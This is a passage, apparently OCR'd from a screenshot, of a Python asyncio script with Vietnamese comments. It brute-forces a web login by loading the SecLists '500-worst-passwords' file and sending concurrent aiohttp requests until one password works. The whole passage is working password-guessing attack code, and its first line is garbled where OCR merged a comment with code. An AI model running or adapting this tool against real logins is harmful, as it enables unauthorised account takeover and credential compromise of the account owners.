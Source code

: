 ```python
                    # if response.status == 302:  # Redirect sau login thành công    except (aiohttp.ClientError, asyncio.TimeoutError):  
        return None  
    except Exception as e:  
        if not STOP_EVENT.is_set():  
            print(f"\n[!] Error for '{password}': {str(e)[:50]}")  
        return None  
  
  
async def main():  
    found_password = None  
    semaphore = asyncio.Semaphore(CONCURRENT_LIMIT)  
  
    # Đọc danh sách password từ file  
    try:  
        with open('/usr/share/seclists/Passwords/500-worst-passwords.txt', 'r', encoding='utf-8', errors='ignore') as f:  
            passwords = [line.strip() for line in f if line.strip()]  
    except Exception as e:  
        print(f"[!] File error: {e}")  
        return  
  
    print(f"[*] Loaded {len(passwords)} passwords")  
  
    async with aiohttp.ClientSession(  
            connector=aiohttp.TCPConnector(limit=0),  
            headers={"User-Agent": "Mozilla/5.0"}  # Thêm header nếu cần  
    ) as session:  
        tasks = []  
        for password in passwords:  
            # Tạo task cho mỗi password  
            task = asyncio.create_task(try_password(session, password, semaphore))  
            tasks.append(task)  
  
        progress = tqdm_asyncio(  
            asyncio.as_completed(tasks),  
            total=len(tasks),  
            unit="pwd",  
            desc="Brute-forcing Passwords",  
            dynamic_ncols=True  
        )  
  
        try:  
            for future in progress:  
                if STOP_EVENT.is_set():  
                    break  
  
                result = await future  
                if result:  
                    found_password, response_data = result  
                    progress.set_description(f"✅ FOUND: {found_password}")  
                    break  
  
        except KeyboardInterrupt:  
            print("\n[!] Interrupted by user")  
            STOP_EVENT.set()  
        finally:  
            # Hủy các task chưa hoàn thành  
            for task in tasks:  
                if not task.done():  
                    task.cancel()  
  
            progress.close()  
```